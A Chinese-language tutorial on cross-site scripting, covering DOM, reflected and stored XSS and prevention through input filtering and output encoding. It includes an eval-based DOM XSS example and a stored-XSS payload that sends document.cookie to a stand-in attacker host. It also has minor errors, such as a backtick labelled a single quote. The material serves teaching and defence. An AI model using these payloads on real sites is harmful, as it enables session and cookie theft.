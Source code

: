 # XSS(Cross Site Scripting,跨站脚本攻击)概述
  XSS的目标是让其他站点的js文件运行在目标站点的上，这主要发生在页面渲染阶段。在该阶段发生了某些非预期的脚本行为，该脚本可能来自用户的输入，也可能来自域外的其他js文件，不一而足。

  主要有两点：
  1.其他站点的js文件运行在目标站点上
  2.发生起源主要来自于用户输入

# XSS的类型：

XSS的发生起源来自于用户输入，因此根据用户输入数据以何种形式、何时触发XSS、是否有后端服务器的参与将其划分为三种类型:

1.DOM XSS:
2.反射型XSS:即用户输入带有xss代码的url访问页面资源，而服务端对url参数值没有进行过滤，直接返回给了浏览器，而浏览器端又用其直接进行了渲染。导致用户cookie及其信息被泄露。
3.存储型XSS:后端参与且存储

## DOM XSS:
1.一般形式:
  例：
  test.html:
     <script>
      eval('alert(location.hash.slice("1"))');
     </script>

  攻击者输入：
    localhost/test.html#document.cookie
 
## 反射型XSS：

## 存储型XSS：
1.一般形式:
  例：
  test.html:
    <form method="post" action="/">
      <fieldset>
        <label>备注：</label><input type="text" value="" />
      </fieldset>
    </form>
  攻击者在备注输入框中输入如下内容，然后后台系统的使用人员的cookie信息将会被攻击者拿到：
    <script>document.getElementById('attacker').href='http://www.attacker_741.com/receiveCookies.html?'+document.cookie;</script>
    

# 总的预防措施:
  对输入(和URL参数)进行过滤，对输出进行编码

## 编码预防原理：
  将相关内容编码后，其只能作为字符串在页面中进行显示，而不能作为Html或js或url进行解析执行。

## 注意事项：
1.url编码时，不能对协议类型进行任何的编码操作，否则URL解析器会认为它无类型，进而导致不能正常解码，不能正常执行；
2.js编码时，对圆括号、双引号、单引号等等字符如果进行编码，解码时其仅会被解析为字符串文本或者标识符名称。
3.浏览器对Html、js和url的解析原理：
  (1)对于文档只含有html和url的情况：先html解析，然后url解析。
  (2)对于文档含有html和url以及js，且url内容为js的情况。先html解析，然后url解析,最后js解析。
  (3)对于文档含有html和url以及js，且js内容为url的情况。先html解析，然后js解析,最后url解析。
  
# 具体措施:
## 为了预防XSS，进行html编码时，需要编码的字符至少需要包含如下字符：
  1.< :即左尖括号；
  2.> :即右尖括号；
  3.` :即单引号；
  4." :即双引号；
  5.& :即与操作。

## 为了预防XSS，js可以进行转义和编码。
  1.转义：使用“\”对特殊字符进行转义后，字符将以字符串形式呈现，不会当做代码执行。
  2.编码：对圆括号、双引号、单引号等等字符如果进行编码，解码时其仅会被解析为字符串文本，不会被当做代码执行。

## 为了预防XSS，url编码。
  对url键值对中的值进行编码。

## 需要留意的输入源：
  1.document.URL；
  2.location.hash；
  3.location.research；
  4.document.referrer(此处应尤为注意，referrer属性虽然可用于避免CSRF，但可触发XSS攻击)；
  5.XHR返回值（跨域返回值）；
  6.form表单及各种input框。

## 需要留意的操作：

1.直接输出HTML内容
  document.body.innerHTML = ...
  document.body.outterHTML = ...
  document.write()

2.HTML标签内联脚本:
  <img src='abc' onerror=alert('error')>

3.直接执行脚本:
  eval
  new Function(){}
  setTimeout()
  window.execScript()

4.打开新页面触发XSS:
  window.open()
  location.href = ...
  location.hash = ...





